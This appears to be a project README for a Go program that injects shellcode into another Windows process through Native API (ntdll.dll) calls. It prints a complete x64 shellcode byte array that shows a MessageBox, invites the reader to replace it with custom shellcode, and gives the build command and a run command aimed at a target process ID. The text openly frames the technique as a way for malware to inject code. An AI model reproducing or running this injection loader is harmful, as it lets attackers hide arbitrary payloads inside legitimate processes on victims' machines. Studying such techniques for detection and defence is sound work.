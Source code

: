 # NT API Injection
This is a tecnique that allows a malware to inject shellcode into a target process by using Windows Native API (via ntdll.dll).

In this example, the program injects a shellcode that displays a MessageBox.
If you want to change the shellcode, look for this variable in the source code: 
```
var codeS = []byte{0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,
	0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
	0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,
	0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
	0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,
	0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,
	0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,
	0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,0x00,0x00,0x00,
	0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
	0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,
	0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,
	0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,
	0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,
	0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
	0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,
	0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,
	0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
	0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,
	0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x3e,0x48,0x8d,
	0x8d,0x34,0x01,0x00,0x00,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,
	0xd5,0x49,0xc7,0xc1,0x40,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,
	0x0e,0x01,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x23,0x01,0x00,0x00,
	0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,
	0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x50,0x4f,
	0x43,0x20,0x4e,0x54,0x20,0x41,0x50,0x49,0x20,0x49,0x4e,0x4a,
	0x45,0x43,0x54,0x49,0x4f,0x4e,0x00,0x4e,0x54,0x20,0x41,0x50,
	0x49,0x20,0x49,0x4e,0x4a,0x45,0x43,0x54,0x49,0x4f,0x4e,0x00,
	0x75,0x73,0x65,0x72,0x33,0x32,0x2e,0x64,0x6c,0x6c,0x00};
```
And replace the existing bytecode with your custom shellcode.

# Build:
```
GOOS=windows GOARCH=amd64 go build main.go
```
## Run the attack
```
.\main.exe <PID>
```
## POC
![Alt text](poc/cmd.png)
![Alt text](poc/POC.png)
![Alt text](poc/gestione_attivita.png)
